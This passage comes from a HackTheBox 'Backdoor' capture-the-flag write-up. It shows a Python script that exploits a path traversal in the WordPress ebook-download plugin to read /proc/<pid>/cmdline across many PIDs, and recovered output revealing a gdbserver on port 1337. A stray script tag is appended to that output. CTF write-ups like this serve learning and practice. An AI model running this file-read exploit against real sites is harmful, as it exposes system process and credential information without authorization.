 > And I finally find the PID 843 which execute a gdbserver on port 1337
> This port number is that I can't know the service in the nmap result.

```
# /proc/843/cmdline/proc/843/cmdline/proc/843/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbuser --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```
#### Other tool 

Besides burp intruder, there is a python code I found on website.

```pid_scan.py

import requests
import re

for x in range(0, 1000):
    url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/" + str(x) + "/cmdline"
    r = requests.get(url)
    response_size = len(r.content)
    if (response_size > 82):
        print("URL:" + r.url)
        print(response_size)
        print("Length:" + str(response_size) + "\n")
        content = r.content
        print( re.split("/cmdline", str(content) ) )


        print("----------------------------------------")

```

![](machine/backdoor/IMG/12.png)

- [pid_scan code from write_up1](https://vato.cc/hackthebox-writeup-backdoor/)
### Exploit by gdbserver

